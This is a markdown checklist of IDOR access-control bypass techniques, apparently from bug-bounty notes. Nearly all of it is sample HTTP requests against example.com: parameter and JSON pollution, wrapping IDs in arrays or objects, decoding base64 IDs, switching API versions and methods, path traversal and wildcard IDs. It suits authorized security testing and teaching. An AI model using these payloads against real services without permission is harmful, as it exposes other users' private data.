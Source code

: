 ## IDOR checklists

**How to exploit**

- [ ]  Add parameters onto the endpoints for example, if there was

```
GET /api/v1/getuser HTTP/1.1
Host: example.com

Try this to bypass

GET /api/v1/getuser?id=1234 HTTP/1.1
Host: example.com
...

```

- [ ]  HTTP Parameter pollution

```
POST /api/get_profile HTTP/1.1
Host: example.com
...

user_id=hacker_id&user_id=victim_id

```

- [ ]  Add .json to the endpoint

```
GET /v2/GetData/1234 HTTP/1.1
Host: example.com
...

Try this to bypass

GET /v2/GetData/1234.json HTTP/1.1
Host: example.com
...

```

- [ ]  Test on outdated API Versions

| Initial Request | Bypass Request |
| --- | --- |
| POST /v1/GetData HTTP/1.1Host: example.comid=123 | POST /v2/GetData HTTP/1.1Host: example.comid=123 |
- [ ]  Wrap the ID with an array.

```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}

Try this to bypass

POST /api/get_profile HTTP/1.1
Host: example.com
...

{"id":[111]}

```

- [ ]  Wrap the ID with a JSON object

```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}

Try this to bypass

POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":{"user_id":111}}

```

- [ ]  JSON Parameter Pollution.

```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":"hacker_id","user_id":"victim_id"}

```

- [ ]  Try decode the ID, if the ID encoded using md5,base64,etc.

```
GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1.1
Host: example.com
...

```

dmljdGltQG1haWwuY29t => [victim@mail.com](mailto:victim@mail.com)

- [ ]  If the website using GraphQL, try to find IDOR using GraphQL.

```
GET /graphql HTTP/1.1
Host: example.com
...

```

```
GET /graphql.php?query= HTTP/1.1
Host: example.com
...

```

- [ ]  MFLAC (Missing Function Level Access Control)

```
GET /admin/profile HTTP/1.1
Host: example.com

Try this to bypass

GET /ADMIN/profile HTTP/1.1
Host: example.com
...

```

- [ ]  Try to swap uuid with number

```
GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1.1
Host: example.com
...

Try this to bypass

GET /file?id=302
Host: example.com
...

```

- [ ]  Change HTTP Method

```
GET /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...

Try this to bypass

POST /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...

```

- [ ]  Path traversal

```
GET /api/v1/users/profile/victim_id HTTP/1.1
Host: example.com
...

Try this to bypass

GET /api/v1/users/profile/my_id/../victim_id HTTP/1.1
Host: example.com
...

```

- [ ]  Change request `Content-Type`

```
GET /api/v1/users/1 HTTP/1.1
Host: example.com
Content-type: application/xml

Try this to bypass

GET /api/v1/users/2 HTTP/1.1
Host: example.com
Content-type: application/json

```

- [ ]  Send wildcard instead of ID

``` GET /api/users/111 HTTP/1.1
Host: example.com

Try this to bypass

GET /api/users/* HTTP/1.1
Host: example.com

GET /api/users/% HTTP/1.1
Host: example.com

GET /api/users/_ HTTP/1.1
Host: example.com

GET /api/users/. HTTP/1.1
Host: example.com
```